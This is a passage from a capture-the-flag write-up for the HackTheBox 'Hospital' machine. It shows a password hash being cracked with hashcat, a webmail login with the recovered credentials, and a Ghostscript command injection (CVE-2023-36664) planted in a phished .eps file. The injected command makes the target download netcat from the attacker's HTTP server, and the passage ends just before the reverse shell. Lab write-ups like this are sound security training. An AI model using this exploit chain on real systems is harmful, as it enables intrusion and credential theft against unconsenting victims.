 Copied the hash in a file tried using cracking password with `hashcat`.

```
# hashcat -m 1800 hash /usr/share/wordlists/rockyou.txt -a 0
```

```
$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:qwe123!@#
```

We got our first credentials . **drwilliams:qwe123!@#**

## Initial Access

I tried using the credentials to authenticate to AD but the credentials didn't seem to work there. This credentials had to go somewhere right? Then I remembered we had the Webmaill login portal on port 443. We will be able to login to the portal using the credentials we got before.

![hospital](https://paincakes.sirv.com/Images/HTB/Hospital/5.png)

We can see a message in the inbox from **drbrown** asking for a design file in some `.eps` format and use `ghostscript` to visualize it. Hmmm Interesting. I just searched for ghostscript exploit and there seems to be a command injection vulnerability. More about that [here](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection)
### GhostScript Command Injection

The direct revershell command mentioned there will not work since this a windows machine, so we have to it manually by injecting commands.

Lets download a `nc.exe` binary which will make our spawning the reverse shell journey easier. We will be hosting the `nc64.exe` binary through the `python` server and download it on the remote windows machine using the `curl` command.

```
# python3 CVE_2023_36664_exploit.py --inject --payload "curl 10.10.14.37:8000/nc64.exe -o nc.exe" --filename file.eps
[+] Payload successfully injected into file.eps.
```

Lets send our malicious `.eps` file to **drbrown**, and hope he opens it.
![hospital](https://paincakes.sirv.com/Images/HTB/Hospital/6.png)

We got hit on our `python` http server, which confirms that now the remote machine has our `nc.exe` binary.

```
# python3 -m http.server                                                                                             
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.241 - - [12/Apr/2024 13:02:15] "GET /nc64.exe HTTP/1.1" 200 -

```

Now lets generate another infected`.eps` file with command to start a connection using the uploaded `nc.exe` binary.
